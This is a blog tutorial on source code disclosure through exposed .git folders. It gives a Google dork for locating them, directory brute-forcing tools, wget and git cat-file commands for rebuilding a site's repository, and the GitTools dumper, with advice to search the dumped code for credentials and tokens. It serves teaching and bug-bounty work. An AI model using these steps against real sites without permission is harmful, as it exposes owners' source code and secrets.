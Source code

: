```yaml
---
date: 2020-07-17 00:34:45
layout: post
title: "Insecure Source Code Management"
subtitle:
description: In this article, I will be explaining you the concept of a source code disclosure vulnerability and various risks associated with it.
image: /assets/img/uploads/source-code-disclosure/norris.png
optimized_image: /assets/img/uploads/source-code-disclosure/norris-optimized.png
category: exploitation
tags: source-code-disclosure bug-bounty
author: madhavmehndiratta
paginate: false
keywords: insecure source code management, source code disclosure, source code disclosure via .git folder, how to extract contents of .git folder, exploiting source code disclosure, infosec articles
---
```


## Introduction

When attacking a website, obtaining its source code can be extremely helpful for constructing an exploit. This is because many bugs, like SQL injections, are way easier to find using static code analysis as compared to black-box testing.
Obtaining a web application's source code also means getting a hold of all developer comments, hardcoded API keys, and all other sensitive data. So the source code of a web application should always be protected from public view. Many developers unknowingly upload the source code of their entire project to the internet, and this is where information leaks occur.

## Finding a .git Folder

<center><br><br>
<img src="/assets/img/uploads/source-code-disclosure/google-dork.png">
</center>
<br>
There are many ways by which you can find a .git folder. The most popular is by searching for the following Google Dork: 

`intitle:"Index of /.git"` 

If the directory listing is enabled, then you could directly browse the .git folder’s contents as shown in the image below.

<center><br><br>
<img src="/assets/img/uploads/source-code-disclosure/directory-listing.png">
</center>

Another way is brute forcing the directories using open source tools such as dirb or dirsearch. They both look for .git 		folder. If automated tools are not allowed, simply go to web-app/.git (e.g. https://example.com/.git) on a browser. If you get a 404 error, then .git/ doesn’t exist on the application. But in some cases if you get a 403 Forbidden error, then it does! but not directly accessible if directory listing is disabled on the server.

## Extracting the Files Manually

Once the existence of the Git folder is confirmed and directory listing is enabled, you can download it using wget by using:

```r
madhav@anton:~$ wget -r -np https://example.com/.git/
```

The next step is to locate the HEAD, and then extracting the master hash. Once you have the hash for the master branch, you can execute the following command: 

`git cat-file -p <master hash>` 

```r
madhav@anton:~/www.example.com/.git$ cat HEAD 
ref: refs/heads/master

madhav@anton:~/www.example.com/.git$ cat refs/heads/master 
1fae33780305157184cd5563dd7696d32be0d3c5

madhav@anton:~/www.example.com/.git$ git cat-file -p 1fae33780305157184cd5563dd7696d32be0d3c5
tree 546b9a0b104ec962ed4dce6154bf2022076cb9c9
parent 88e6c84c8dd8c38646772fb359866fcfcf8740e4
author Foo <example@gmail.com> 1583500079 +0100
committer GitHub <noreply@github.com> 1583500079 +0100
gpgsig -----BEGIN PGP SIGNATURE-----
 a9abJor19quHsI3ZWWcjOr0UnZ33sfIs8z0ITVV0O525j899LbmkIxLHmBnvgQ1y
 UeG5Js/OBaMBtv8j3Kbi4zzW+ETzvuqGGNSUXbv3OEEHRSaePkSQDiHwmpJAMCvC
 DmuFNwJpPL8T7hzX6jdM1r7i49KC70qooZKlx5+n9Y+0wHhSWWvEQmsJnl73oso9
 1wPYg3Qh+ImWvmOP2IDLuRG9qDd7uxd+Te09+CPnsjxF3n9lpbwlvJCievGY2DI=
 =lc27
 -----END PGP SIGNATURE-----

madhav@anton:~/www.example.com/.git$
```

This will give you the hash for the tree object which will lead you to the files of the project by executing the same command with the tree hash.

```r
madhav@anton:~/www.example.com/.git$ git cat-file -p 546b9a0b104ec962ed4dce6154bf2022076cb9c9
100755 blob 610cecd0bdab0faea045ef4f9bb861c862f7be03	LICENSE
100755 blob ec58df797c478eada515ea92bf3185ea6194edef	README.md
100644 blob 968a7233da85ea9edf0e56b223fe6ea1c6f1844e	cd.php
040000 tree 881998e68b54e759a8c06872aef8d5f4e9a08b39	css
100755 blob f4739221655f14501aa59da801d9708446bf01be	demo.php
100755 blob a5e1808b54ecf5119c4f8c2c3b868389f3fa6352	error.php
100755 blob 4061ddc0724b65ba54f6d1bbec4c4935e1f8649f	favicon.ico
040000 tree 979ce71e881e8e4fbf42da2cd547218f93daa4ea	font-awesome
040000 tree d8df5e7705085c10bffc38376394907b7514aa99	fonts
040000 tree 7a36fc98abdf572f629b85456e525242415dc76f	img
100755 blob f1c0edcfbd75ebad252dbeea4ab9c9df19712220	index.php
040000 tree bae3d0cfd5d74012d2fa35b9ccbfd74121d6f4d4	js
100755 blob 689d8cfad48fc2e0749ac0f2cb6786238d38287b	keybase.txt
040000 tree 444cc1c5c9c6a4bae757bc25adc9764f4a5a1485	less
100755 blob 2697029c1ba18340e044e6df68689548faed7a82	talks.php
madhav@anton:~/www.example.com/.git$
```
To extract the source code of the website into a compressed zip file, you can execute the following command:

```r
git archive --format zip --output "source.zip" <master-hash>
```

Now you will see a zip file named source.zip in the same directory. 

## Automating The Process

Browsing .git/ manually is good for proof of concept, but it is also a tedious job. If you want to retrieve as many files as possible, even with directory listing disabled, you can use the tool named <a href="https://github.com/internetwache/GitTools">GitTools.</a> 

```r
madhav@anton:~$ ./gitdumper.sh https://example.com/.git/ dest-dir/

git status          # To check the files that have changed
git checkout -- .   # To restore the files & download the directory
git log             # To see what other commits are there

```

Now you can analyze the local repository manually. Try to look for other vulnerabilities using static code analysis, or credentials, authentication tokens, new endpoints, etc.
## Conclusion

There are many famous websites which do not deny access to the .git/ folder therefore anyone can download their source code and possibly other sensitive data. This issue is not hard to detect and mitigate, so take a minute to make sure that your webserver isn’t misconfigured.

That’s it! I hope you understood the concept of source code disclosure vulnerability and the risk associated with it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/fabric8">Fabricio Rosa Marques.</a>